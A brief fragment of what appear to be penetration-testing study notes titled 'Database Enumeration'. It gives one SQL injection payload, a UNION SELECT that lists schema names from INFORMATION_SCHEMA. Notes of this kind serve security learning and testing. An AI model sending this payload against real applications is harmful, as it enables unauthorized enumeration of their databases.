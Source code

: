 # Database Enumeration





<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Information Schema

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```


